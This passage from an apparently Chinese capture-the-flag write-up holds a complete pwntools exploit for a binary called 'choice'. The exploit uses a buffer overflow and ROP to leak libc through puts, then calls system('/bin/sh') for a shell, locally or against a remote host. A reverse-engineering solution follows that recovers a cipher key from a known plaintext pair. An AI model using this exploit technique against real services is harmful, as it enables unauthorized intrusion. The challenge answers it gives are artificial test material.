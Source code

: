 exp 为
```python
from pwn import *

def debug(addr,PIE=True):
	if PIE:
		text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
		gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
	else:
		gdb.attach(p,"b *{}".format(hex(addr)))

def main(host,port=10002):
	global p
	if host:
		p = remote(host,port)
	else:
		p = process("./choice",env={"LD_PRELOAD":"./libc.so"})
		debug(0x080485B9,0)
	p.recvuntil("Please enter your name:")
	p.send("A"+"\x00"*0x13+"\xf8")
	p.recvuntil("3. Study hard from now")
	p.sendline("1")
	p.recvuntil("Wrong choice!\n")
	p.recvuntil("choice it?\n")
	p.send("A"*0x1c+p32(0xcafebabe)+p32(elf.symbols["puts"])+p32(0x8048718)+p32(elf.got["puts"]))
	p.recvuntil("Good bye!\n")
	libc.address = u32(p.recv(4))-libc.symbols["puts"]
	info("libc : " + hex(libc.address))
	p.recvuntil("choice it?\n")
	p.send("A"*0x20+p32(libc.symbols["system"])+p32(0)+p32(libc.search("/bin/sh\x00").next()))
	p.interactive()
if __name__ == "__main__":
	libc = ELF("./libc.so",checksec=False)
	elf = ELF("./choice",checksec=False)
	main(args['REMOTE'])
```

# Re

## guess the key

程序提供了加密方式，和一对明文密文对，直接先求出key，在逆加密算法即可

求key的脚本

```python
f = open("msg01.enc","rb")
enc1 = f.read()
f.close()
k = ''
t = 0
i = 0
msg = 'Hi,there is nothing here,heiheihei.\n'
for char in enc1:
	k += chr(((ord(char)-i*i-ord(msg[i]))^t)&0xff)
	t = ord(msg[i])
	i += 1
print k

# VeryVeryLongKeyYouWillNeverKnowVeryV
```
加密函数有对`key`的长度进行取模，所以`key`应该为`VeryVeryLongKeyYouWillNeverKnow`
